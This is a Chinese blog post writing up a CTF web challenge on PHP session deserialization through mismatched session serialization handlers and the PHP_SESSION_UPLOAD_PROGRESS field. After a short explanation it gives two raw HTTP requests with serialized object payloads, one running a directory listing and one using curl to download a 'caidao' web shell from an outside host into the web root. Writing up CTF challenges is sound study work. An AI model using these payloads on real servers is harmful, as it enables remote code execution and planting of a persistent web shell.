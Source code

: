 +++
title = "关于PHP SESSION反序列化"
topics = ["Pentest"]
tags = ["php"]
description = "基于第三届4.29“安恒杯”网络安全技术大赛初赛中的题，第三个web题，php反序列化漏洞"
date = "2018-07-23T00:09:17+08:00"
draft = false
+++

### 0x00 环境
PHP：PHP Version 5.5.35  
System： Linux version 2.6.32-504.23.4.el6.x86_64 (Red Hat 4.4.7-11)  
Apache：Apache/2.2.15

公司出了一些ctf，说要摸底，然后根据答题成绩来分配相应工作。。。。。 

其中有一道是php反序列化，直接用的就是 第三届4.29“安恒杯”网络安全技术大赛初赛第三个web题

我比较菜，这里根据网上已有writeup做一下，记录一下

### 0x00 PHP Session 序列化及反序列化处理器

php在session存储和读取时,都会有一个序列化和反序列化的过程，反序列化中会调用对象的magic方法,比如```__destruct(),__wakeup()```等

PHP 内置了多种处理器用于存取 $_SESSION 数据，都会对数据进行序列化和反序列化，这几种处理器如下：
```
---------------------------------------------------------------------------------------------
处理器                      |对应的存储格式
---------------------------------------------------------------------------------------------
php                        |键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值
php_binary                 |键名的长度对应的ASCII字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值
php_serialize (php>=5.5.4) |经过 serialize() 函数反序列处理的数组
---------------------------------------------------------------------------------------------
```

如果 PHP 在反序列化存储的 SESSION 数据时使用的处理器和序列化时使用的处理器不同，可能会导致数据无法正确反序列化，经过构造甚至可以执行代码

### 0x01 环境设置







```
POST /phpinfo.php HTTP/1.1
Host: 10.11.11.11
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------162809728719447253529785011
Content-Length: 496

-----------------------------162809728719447253529785011
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

ddd|O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:1:"1";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:27:"system('ls /var/www/html');";}}}
-----------------------------162809728719447253529785011
Content-Disposition: form-data; name="file"; filename='1.txt'
Content-Type: text/plain

aaaaaa
-----------------------------162809728719447253529785011--
```



```
POST /index.php HTTP/1.1
Host: 192.168.3.136
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=sgff21msc3q4bvoh8dj8dni7o1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------162809728719447253529785011
Content-Length: 575

-----------------------------162809728719447253529785011
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

ddd|O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:1:"1";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:105:"system('curl -o /var/www/html/reber.php https://raw.githubusercontent.com/reber0/tmp/master/caidao.php');";}}}
-----------------------------162809728719447253529785011
Content-Disposition: form-data; name="file"; filename='1.php'
Content-Type: application/octet-stream

<dddd>
-----------------------------162809728719447253529785011--
```


<br>
#### Reference(侵删)：
* [PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患](http://drops.wooyun.org/tips/3909)
* [安恒429|web 3 session反序列化](https://www.tuicool.com/articles/BfuayyI)
* [有趣的php反序列化总结](http://www.mottoin.com/18436.html)


